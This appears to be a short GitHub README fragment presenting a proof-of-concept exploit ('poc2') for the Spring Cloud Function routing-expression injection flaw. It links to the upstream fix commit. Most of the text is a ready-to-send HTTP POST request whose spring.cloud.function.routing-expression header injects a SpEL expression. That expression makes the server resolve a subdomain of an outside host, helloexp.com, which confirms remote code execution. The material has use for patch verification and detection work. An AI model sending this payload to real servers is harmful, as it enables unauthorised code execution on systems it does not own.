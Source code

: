 <img width="1148" alt="image" src="https://user-images.githubusercontent.com/18223385/160409293-eae65d89-9dea-43c9-8157-795f124489ad.png">

# poc2

```
POST /functionRouter HTTP/1.1
host:127.0.0.1:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/15.2 Safari/605.1.15
Connection: close
spring.cloud.function.routing-expression:T(java.net.InetAddress).getByName("random87535.rce.helloexp.com")
Content-Length: 5

helloexp
```

## official GitHub info
https://github.com/spring-cloud/spring-cloud-function/commit/0e89ee27b2e76138c16bcba6f4bca906c4f3744f
